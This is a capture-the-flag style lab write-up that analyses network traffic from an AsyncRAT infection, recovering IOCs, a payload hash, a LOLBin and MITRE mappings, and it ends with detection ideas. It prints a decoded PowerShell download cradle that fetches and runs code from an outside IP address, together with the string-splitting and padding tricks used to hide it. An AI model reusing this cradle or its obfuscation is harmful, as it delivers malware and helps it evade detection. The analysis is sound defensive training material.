










# XlmRat

**Platform:** CyberDefenders | **Lab:** *XlmRat* | **Tools:** Wireshark, Python 3, VirusTotal, Whatsmyip

## Overview

The lab provides a PCAP in which an attacker executes a command that downloads the first stage of a malware. The goal is to reconstruct what happened from the traffic alone: where the payload came from, who hosts it, what the payload is, and what the script does on the victim machine.

## Findings at a Glance

- **Payload URL:** `http://45.126.209.4:222/mdm.jpg`
- **Hosting provider:** Reliablesite.net LLC
- **Malware SHA256:** `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798`
- **Family (Alibaba label):** AsyncRat
- **PE compile timestamp:** 2023-10-30 15:08
- **LOLBin:** `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe`
- **Dropped files:** `Conted.ps1`, `Conted.bat`, `Conted.vbs`

---

## Q1: What is the URL from which the first malware stage was installed?

**Approach:** The attacker's command is delivered over HTTP, so start with the HTTP requests and read the stream.

1. Open the PCAP in Wireshark and apply this display filter:

```
http.request.method == "GET"
```

2. Right-click the first packet, then choose **Follow > HTTP Stream**.
3. Inside the stream, the script does not contain the command in clear text. It stores it as an array of 2-character chunks, from `LZeWX(0)` to `LZeWX(87)`, to be joined at runtime:

```
LZeWX(0)  = "[B"
LZeWX(1)  = "YT"
LZeWX(2)  = "e["
...
LZeWX(86) = "78"
LZeWX(87) = "9)"
```

4. Copy the chunks into Python and join them in order:

```python
parts = [
    "[B", "YT", "e[", "]]", ";$", "A1", "23", "='",
    "Ie", "X(", "Ne", "W-", "OB", "Je", "CT", " N",
    "eT", ".W", "';", "$B", "45", "6=", "'e", "BC",
    "LI", "eN", "T)", ".D", "OW", "NL", "O'", ";[",
    "BY", "Te", "[]", "];", "$C", "78", "9=", "'V",
    "AN", "('", "'h", "tt", "p:", "//", "45", ".1",
    "26", ".2", "09", ".4", ":2", "22/m", "dm", ".j",
    "pg", "''", ")'", ".R", "eP", "LA", "Ce", "('",
    "VA", "N'", ",'", "AD", "ST", "RI", "NG", "')",
    ";[", "BY", "Te", "[]", "];", "Ie", "X(", "$A",
    "12", "3+", "$B", "45", "6+", "$C", "78", "9)"
]
print("".join(parts))
```



**What the joined string does** (reformatted for readability):

```
[BYTe[]];
$A123 = 'IeX(NeW-OBJeCT NeT.W';
$B456 = 'eBCLIeNT).DOWNLO';
[BYTe[]];
$C789 = 'VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING');
[BYTe[]];
IeX($A123 + $B456 + $C789)
```

This is a classic download cradle (`IEX (New-Object Net.WebClient).DownloadString(...)`) hidden with three tricks: the command is split across variables, the word `DOWNLOADSTRING` is built through `.Replace()`, and the `[BYTe[]];` fragments are harmless noise. The goal is to dodge string-based detection.

**Answer:**

```
http://45.126.209.4:222/mdm.jpg
```



---

## Q2: Which hosting provider owns the associated IP address?

**Approach:** Look up the IP `45.126.209.4` in a WHOIS or IP-intelligence service and read the organization / ISP field. I used [whatismyipaddress.com](https://whatismyipaddress.com/); querying the regional registry (RIPE/ARIN/APNIC) or VirusTotal's IP page gives the same ownership data from a more authoritative source.

**Answer:**

```
Reliablesite.net LLC
```


---

## Q3: What is the SHA256 of the malware executable?

**Approach:** The script carries two payloads, a loader and a secondary executable. The executable is embedded as hex, so it can be carved out of the stream and hashed.

1. Go back to the same filter (`http.request.method == "GET"`), right-click the **second** packet, and choose **Follow > HTTP Stream**.
2. Search for a hex blob that starts with `4D_5A_90_00_03`. `4D 5A` is `MZ`, the magic bytes of a Windows PE file. The blob ends with `00_00_00_00`.



> Note: the same hex blob appears twice, back to back, in the stream. Because it is very long, the repetition is easy to miss when scrolling. Copy only one copy, from the first `4D_5A_90_00_03` to the first `00_00_00_00` that closes it. If both copies are pasted, the hash will be wrong.

3. Paste the blob into Python and hash the decoded bytes:

```python
import hashlib

hex_str = """4D_5A_90_00_03...00_00_00_00"""   # paste the full blob here
data = bytes.fromhex(hex_str.replace("_", " "))
print(hashlib.sha256(data).hexdigest())
```

If copying from the stream is error-prone, **File > Export Objects > HTTP** can save the transferred object directly, and `sha256sum` gives the hash.

**Answer:**

```
1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798
```



---

## Q4: What is the malware family label based on Alibaba?

**Approach:** Search the SHA256 on [VirusTotal](https://www.virustotal.com/). In the **Detection** tab, find the **Alibaba** row in the vendor list and read its label.

AsyncRAT is a publicly available remote access trojan: it gives the attacker remote control, keylogging, and file access on the victim.

**Answer:**

```
AsyncRat
```



---

## Q5: What is the PE header compile timestamp of the malware?

**Approach:** On the same VirusTotal page, open the **Details** tab and read **Compilation Timestamp** under the header information.

**Answer:**

```
2023-10-30 15:08
```



---

## Q6: Which LOLBin is leveraged for stealthy process execution? Provide the full path.

**Approach:** Back in the second packet's stream, the script builds a path with filler `#` characters and removes them at runtime with `-replace`:

```
$NA = 'C:\W#######indow############s\Mi####cr' -replace '#', ''
$AC = $NA + 'osof#####t.NET\Fra###mework\v4.0.303###19\R##egSvc#####s.exe' -replace '#', ''
```



Removing every `#` and joining the two pieces gives the full path. `RegSvcs.exe` is a signed Microsoft .NET binary, which is why it is a LOLBin: it runs under a trusted name and is commonly abused to host malicious code (MITRE T1218.009).

**Answer:**

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe
```

---

## Q7: List the names of the files dropped by the script.

**Approach:** In the same stream, search for file-write calls:

```
[IO.File]::WriteAllText("C:\Users\Public\Conted.ps1", $Content)
[IO.File]::WriteAllText("C:\Users\Public\Conted.bat", $Content)
[IO.File]::WriteAllText("C:\Users\Public\Conted.vbs", $Content)
```





Three script files in three different scripting languages are written to `C:\Users\Public`, a folder every user can write to, which makes it a common staging location.

**Answer:**

```
Conted.ps1, Conted.bat, Conted.vbs
```

---

## Indicators of Compromise

- **URL:** `http://45.126.209.4:222/mdm.jpg`
- **IP / port:** `45.126.209.4` / `222` (Reliablesite.net LLC)
- **SHA256:** `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798`
- **Files:** `C:\Users\Public\Conted.ps1`, `Conted.bat`, `Conted.vbs`
- **LOLBin abused:** `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe`

## MITRE ATT&CK Mapping

- **T1059.001** PowerShell: the download cradle and `Conted.ps1`
- **T1059.003 / T1059.005** Windows Command Shell and VBScript: `Conted.bat`, `Conted.vbs`
- **T1027** Obfuscated Files or Information: chunked strings, `.Replace()`, `#` padding
- **T1105** Ingress Tool Transfer: payload pulled from `45.126.209.4:222`
- **T1218.009** Signed Binary Proxy Execution (Regsvcs/Regasm): `RegSvcs.exe`

## Detection Ideas

- PowerShell command lines containing `IEX` together with `DownloadString` or `WebClient`, especially with mixed-case or split strings.
- `RegSvcs.exe` launched by `powershell.exe`, `wscript.exe`, or `cmd.exe`, or making outbound network connections.
- Script files (`.ps1`, `.bat`, `.vbs`) created under `C:\Users\Public`.
- HTTP downloads of image extensions (`.jpg`) from non-standard ports such as 222.

## Takeaways

The analysis chains four skills: reading obfuscated PowerShell, carving a PE out of a stream, pivoting from a hash to threat intelligence, and spotting LOLBin abuse. The same chain maps directly onto SOC triage work.
